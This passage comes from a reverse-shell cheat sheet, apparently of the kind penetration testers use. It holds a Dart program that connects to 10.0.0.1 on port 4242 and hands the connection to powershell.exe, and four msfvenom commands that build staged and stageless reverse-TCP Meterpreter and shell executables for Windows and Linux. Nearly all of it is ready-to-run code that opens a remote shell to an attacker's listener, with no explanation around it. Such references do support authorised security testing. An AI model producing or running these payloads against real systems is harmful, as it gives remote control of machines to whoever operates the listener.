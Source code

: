 ```csharp

    return 0;       
}
```

### Dart

```java
import 'dart:io';
import 'dart:convert';

main() {
  Socket.connect("10.0.0.1", 4242).then((socket) {
    socket.listen((data) {
      Process.start('powershell.exe', []).then((Process process) {
        process.stdin.writeln(new String.fromCharCodes(data).trim());
        process.stdout
          .transform(utf8.decoder)
          .listen((output) { socket.write(output); });
      });
    },
    onDone: () {
      socket.destroy();
    });
  });
}
```

## Meterpreter Shell

### Windows Staged reverse TCP

```powershell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```

### Windows Stageless reverse TCP

```powershell
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```

### Linux Staged reverse TCP

```powershell
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```

### Linux Stageless reverse TCP

```powershell
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf
```
